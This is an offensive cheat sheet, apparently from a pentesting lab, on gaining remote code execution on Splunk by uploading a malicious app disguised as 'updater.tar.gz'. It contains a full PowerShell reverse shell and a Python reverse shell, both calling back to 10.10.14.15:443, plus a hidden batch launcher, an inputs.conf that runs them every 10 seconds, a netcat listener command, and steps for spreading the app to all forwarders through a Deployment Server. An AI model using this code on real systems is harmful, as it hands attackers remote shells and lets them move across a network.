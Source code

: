 
### **Objective**

- Gain _remote code execution_ (RCE) on a Splunk instance by **abusing built-in scripted inputs**
- Applicable to both **Windows** and **Linux** hosts

---

### **Splunk App Structure for RCE**
```bash
splunk_shell/
├── bin
│   ├── run.bat
│   ├── run.ps1  # PowerShell reverse shell
│   └── rev.py   # Python reverse shell (for Linux)
└── default
    └── inputs.conf
```

---

### **PowerShell Reverse Shell (run.ps1)**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};$client.Close()
```

---

### **Batch Script (run.bat)**
```batch
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

---

### **inputs.conf Configuration**
```ini
[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```


---

### **Packaging & Deployment**

1. Create tarball:
```bash
tar -cvzf updater.tar.gz splunk_shell/
```
2. Start a listener:
```bash
sudo nc -lnvp 443
```
3. Navigate to _Apps > Manage Apps > Install app from file_ on Splunk UI
4. Upload `updater.tar.gz`
 **Result**
- Reverse shell received

---

### **Linux Alternative (rev.py)**
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

---

### **Lateral Movement**

- If target is a **Splunk Deployment Server**:
    - Place app in: `$SPLUNK_HOME/etc/deployment-apps`
    - Affects all hosts with **Universal Forwarders**
    - Use **PowerShell** for Windows-based forwarders (Python not installed)
